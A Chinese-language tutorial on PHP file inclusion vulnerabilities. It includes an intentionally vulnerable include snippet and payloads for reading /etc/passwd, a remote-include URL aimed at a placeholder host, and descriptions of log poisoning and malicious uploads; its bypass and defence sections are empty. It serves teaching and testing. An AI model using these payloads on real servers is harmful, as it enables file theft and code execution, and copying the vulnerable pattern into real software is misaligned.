 # 文件包含漏洞

## 文件包含漏洞概述

### 文件包含简介

开发者将重复使用的函数写入单个文件, 需要使用某个函数时直接调用该文件, 无需再次编写, 文件调用的过程称为文件包含

### 文件包含分类

* 本地文件包含 LFI (Local File Include)
* 远程文件包含 RFI (Remote File Include)

`allow_url_fopen=On` 允许从远程服务器或网站检索数据

`allow_url_include=On` 允许 `include / require` 远程文件

### php 文件包含函数

`include` 与 `require` 除了错误处理基本相同

* `include()` 在包含过程中出现错误, 生成警告 (E_WARNING), 脚本继续执行
* `require()` 在包含过程中出现错误, 生成致命错误 (E_COMPILE_ERROR), 脚本停止执行
* `include_once()` 与 `require_once()` 特性同上, 不同在于若文件已包含, 则不再包含, 可以避免函数重定义, 变量重新赋值

```php
<?php
function to_print($name){
  echo "{$name} is print this func<hr/>"
}
?>
```

```php
<?php
include('func.php');
to_print('jack');
?>
```

```php
<?php
include('func.php');
to_print('bob');
?>
```

### 文件包含漏洞

开发者为了使代码更灵活, 将被包含的文件设置为变量, 用来进行动态调用, 造成了客户端可以调用恶意文件, 出现了文件包含漏洞.

通过 PHP 函数引入文件时, 传入的文件名未进行合理验证, 执行了预想之外的文件, 最终导致意外的文件泄露甚至恶意代码注入.

```php
<?php
error_reporting(0);
$file = $_GET["file"];
include $file;

highlight_file(__FILE__);
?> 
```

`http://example.com/include.php?file=/etc/passwd`

## 文件包含漏洞利用

### 任意文件读取

`file://` 与直接包含 `?file=file:///etc/passwd`

### 远程文件包含

`?file=http://IP:PORT/phpinfo.php`

### 包含上传文件

文件包含函数会将被包含的文件内容当作PHP代码去解析，那么我可以寻找网站上的上传功能，上传带有恶意代码的图片、文件等等，在通过文件包含函数进行包含。

### 包含日志文件

WEB服务器一般会将用户的访问记录保存在访问日志中。那么我们可以根据日志记录的内容，精心构造请求，把PHP代码插入到日志文件中，通过文件包含漏洞来执行日志中的PHP代码。


## 文件包含漏洞绕过

##  文件包含漏洞防御